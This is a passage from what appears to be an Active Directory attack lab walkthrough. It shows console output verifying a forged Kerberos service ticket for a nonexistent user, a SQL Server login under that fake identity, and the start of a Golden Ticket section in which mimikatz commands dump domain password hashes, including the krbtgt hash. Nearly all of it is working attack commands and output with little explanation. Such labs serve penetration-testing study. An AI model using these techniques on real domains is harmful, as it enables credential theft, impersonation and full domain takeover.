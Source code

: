 ### 3.2.5. Verify ticket
```console
C:\Users\dummy>klist

Current LogonId is 0:0x3441a5

Cached Tickets: (1)

#0>     Client: nonexistentuser @ LAB.VX
        Server: MSSQLSvc/svr.lab.vx:1433 @ LAB.VX
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 4/18/2022 9:15:16 (local)
        End Time:   4/15/2032 9:15:16 (local)
        Renew Time: 4/15/2032 9:15:16 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

### 3.2.6. Attempt login to service
```console
C:\Users\dummy>"C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE" -S svr.lab.vx
1> SELECT SYSTEM_USER;
2> GO

--------------------------------------------------------------------------------------------------------------------------------
LAB\nonexistentuser

(1 rows affected)
```

# 5. Golden Ticket

## 5.1. Dump password hashes on domain controller
- Requires `Domain Admins` rights
- Information of interest: domain SID and `krbtgt` password hash

```console
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : LAB / S-1-5-21-1470288461-3401294743-676794760

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : e19ccf75ee54e06b06a5907af13cef42

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 3ac4cccaca955597db0d11a7ffa50025

```